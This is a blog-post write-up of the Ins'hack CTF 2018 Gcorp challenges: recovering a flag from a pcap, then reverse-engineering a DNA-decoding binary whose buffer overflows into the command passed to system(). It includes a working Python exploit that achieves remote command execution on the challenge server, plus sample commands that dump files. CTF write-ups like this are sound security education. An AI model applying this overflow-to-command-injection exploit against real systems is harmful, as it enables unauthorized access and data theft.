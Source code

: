 ```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Gcorp stage 1 & 2"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


The second pwn challenge was Gcorp Stage 2, but it required to complete the first stage. This series of challenges was very complete as it had a "background" in such a way that the real fun was to progress in the stages.

Stage 1
---------------------
>While loosing some time on the Internet you fell on a old blog-post about conspiracy theories...
>
>A self proclaimed hacker attached a network capture in a comment of this post telling that he will be `0xdeadbeef` before finishing the work.
>
>Even if the job seems risky you can't help it, you wanna look at it...
>the adventure begins...

The first stage is the only challenge of the networking category. It starts with a pcap file, which obviously I opened with Wireshark. Nothing really interesting in terms of packets or streams, just some ARP and a long TCP stream which we can follow. At first sight, it seemed like junk data and I rapidly went through the entire stream to land on what appears to be a base64 string:

![base64 string]({{ "/assets/inshackTcpStream.png" | absolute_url }})
And decoded, it gaves us the flag for the first stage:
```shell
└───▶ echo "SU5TQXtjMTgwN2EwYjZkNzcxMzI3NGQ3YmYzYzY0Nzc1NjJhYzQ3NTcwZTQ1MmY3N2I3ZDIwMmI4MWUxNDkxNzJkNmE3fQ==" | base64 -d
INSA{c1807a0b6d7713274d7bf3c6477562ac47570e452f77b7d202b81e149172d6a7}
```
Nothing too complicated but the funnier part is following.

Stage 2
---------------------
>All you need to do is to pwn using some DNA samples...
>
>Once you gathered enough information, go checkout this (url)
>
>Note: you should validate stage 1 to have more information on stage 2.

In this part, there was just a URL given that said:
>... POST valid DNA data (input limited to 1024 bytes)

After trying some POST requests, I had errors but nothing much to drive me on the correct path. As mentioned in the description, I decided to give a closer look at the first stage and the TCP stream. And yes, there was more information in it:

![random test]({{ "/assets/inshackRandomText.png" | absolute_url }})
Some text, but I did try to find a 12142 port open on multiple URL (gcorp-stage-2.ctf.insecurity-insa.fr...) but nope, wasn't this.

![ELF start]({{ "/assets/inshackELFStart.png" | absolute_url }})
Here we got the beginning of an ELF binary. This is more promising. The next step was to extract this binary from the pcap file. After saving the stream with Wireshark, I used the hexadecimal editor Bless to cut the uneeded part. As a result, we had a perfect binary:
```shell
└───▶ file test
test: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03596ed5f316c5308ca05926c90ceaa01596c356, not stripped
```
When launched, it waits for input and I rapidly recognized the same errors I had with the POST requests. Surely this was the program handling the POST requests. The next step was to disassemble it to see what kind of data it waits for. The **main** function had a call to a **dna_to_bin** that also had a call to **d2b**.
>**main** -> **dna_to_bin** -> **d2b**

+ **dna_to_bin**: check if the input data is a multiple of 4. If so; iterate through the data 4 by 4 bytes and call **d2b** each time with these 4 bytes.
+ **d2b**: iterates through the 4 bytes and check if these bytes are equal to A, C, G or T (I know this group of letters was related to DNA because of the movie Gattaca). If not, it gaves us the other error we found with the POST requests: "DNA data contains a unknown character!". Otherwise it calculates a byte based on the 4 bytes sequences, and stores it into a global variable *godat*.

At this point I knew what the program was waiting for. For the same 4 bytes sequence it resulted in the same output. For example "CCCC" was "U", "CCCA" was "T"... Thus it was possible to generate any byte.

There also was an interesting call to **system** at the end of **main**. By setting a breakpoint on it I was able to see what argument the function takes:
```nasm
[-------------------------------------code-------------------------------------]
   0x555555554a76 <main+216>:	mov    edi,0x1
   0x555555554a7b <main+221>:	call   0x5555555546d0 <exit@plt>
   0x555555554a80 <main+226>:	lea    rdi,[rip+0x200639]        # 0x5555557550c0 <gcmd>
=> 0x555555554a87 <main+233>:	call   0x555555554690 <system@plt>
   0x555555554a8c <main+238>:	mov    eax,DWORD PTR [rbp-0x4]
   0x555555554a8f <main+241>:	cdqe   
   0x555555554a91 <main+243>:	mov    rdx,rax
   0x555555554a94 <main+246>:	lea    rsi,[rip+0x2005a5]        # 0x555555755040 <godat>
Guessed arguments:
arg[0]: 0x5555557550c0 ("echo $(date) > /tmp/dna.log")
```
Hmm, "echo $(date) > /tmp/dna.log" is the argument string for system, which is stored in the global variable *gcmd*. This variable was stored between two other global variables: *gidat* and *godat*.
```nasm
gdb-peda$ x/30dx 0x5555557550c0 - 0x40
0x555555755080 <godat+64>:	0x0000000000000000	0x0000000000000000
0x555555755090 <godat+80>:	0x0000000000000000	0x0000000000000000
0x5555557550a0 <godat+96>:	0x0000000000000000	0x0000000000000000
0x5555557550b0 <godat+112>:	0x0000000000000000	0x0000000000000000
0x5555557550c0 <gcmd>:	    0x642824206f686365	0x2f203e2029657461
0x5555557550d0 <gcmd+16>:	  0x2e616e642f706d74	0x0000000000676f6c
0x5555557550e0 <gcmd+32>:	  0x0000000000000000	0x0000000000000000
0x5555557550f0 <gcmd+48>: 	0x0000000000000000	0x0000000000000000
0x555555755100 <gidat>:	    0x4343434341414141	0x000000000000000a
0x555555755110 <gidat+16>:	0x0000000000000000	0x0000000000000000
0x555555755120 <gidat+32>:	0x0000000000000000	0x0000000000000000
0x555555755130 <gidat+48>:	0x0000000000000000	0x0000000000000000
0x555555755140 <gidat+64>:	0x0000000000000000	0x0000000000000000
0x555555755150 <gidat+80>:	0x0000000000000000	0x0000000000000000
0x555555755160 <gidat+96>:	0x0000000000000000	0x0000000000000000
```
*gidat* is apparently storing our input (it had a size of 1024 bytes). With *godat* just above *gcmd*, the question was: are we able to overwrite *gcmd* with *godat* ? The maximum input size is 1024 bytes, so 1024/4=256. However, *godat* is 128 bytes long. A quick test resulted in:
```shell
└───▶ python -c "print('CCCC'*128 + 'CCCC', end='')" | ./test
sh: Ucho : commande introuvable
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```
Yep, the command had effectivly been overwritten.

Therefore, the plan was to write a script that:
+ Takes a command in argument.
+ For each byte in this command, find the right combination with the program.
+ Sends 4\*128=512 bytes to go through *godat* and 512 other bytes that start with the combination for the command.

There it is:
{% highlight python linenos %}
#!/usr/bin/python2

from pwn import *
import random, json, os, requests

context.log_level = 'error'

# ";" is added at the end of the command so what's after doesn't count
cmd = sys.argv[1] + " ;"
payload = ""
tab={}

# Because it takes a bit of time to find a combination, the combinations' dic
# is saved into a json file each time the script terminates and loaded again
# when the script starts
if (os.path.getsize('tab.json') > 0):
    with open('tab.json', 'rw') as fp:
        tab = json.load(fp)

for e in cmd:

    # If we already have the combination, it
    # is added to our payload
    if e in tab.keys():
        payload += tab[e]

    # If we don't have the combination:
    # The while True could be better, same
    # for the random.choice('GATC'), an iteration
    # through AAAA, then AAAC... would be more effective
    else:
        while True:
            # We start the process each time and do not
            # forget to close it
            c = process("./test")
            junk = ''.join([random.choice('GATC') for n in xrange(4)])
            c.sendline(junk)
            r = c.recv(1)
            # Combination is found, add it to the dictionnary
            # and our payload
            if r == e:
                payload += junk
                tab[e]=junk
                break
            c.close()

with open('tab.json', 'w') as fp:
    json.dump(tab, fp)

c = requests.post("https://gcorp-stage-2.ctf.insecurity-insa.fr/", data='C'*512+payload+512*tab[' '])
print(c.text.split('UUUUUU')[0])
{% endhighlight %}

We can now easily type our commands:
```shell
./xploit.py "ls -lah; cat .flag.txt"
total 916
drwxr-xr-x    1 gcorp    root        4.0K Apr  7 10:07 .
drwxr-xr-x    1 root     root        4.0K Apr  7 10:07 ..
-rw-rw-r--    1 gcorp    root          70 Apr  7 10:07 .flag.txt
-rwxrwxr-x    1 gcorp    root      891.9K Apr  7 10:07 dna_decoder
-rw-rw-r--    1 gcorp    root       10.0K Apr  7 10:05 stage_3_storage.zip
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

Bonus
---------------------
Recover the stage_3_storage.zip
```shell
./xploit.py "cat stage_3_storage.zip | base64" | base64 -d > stage_3_storage.zip
```

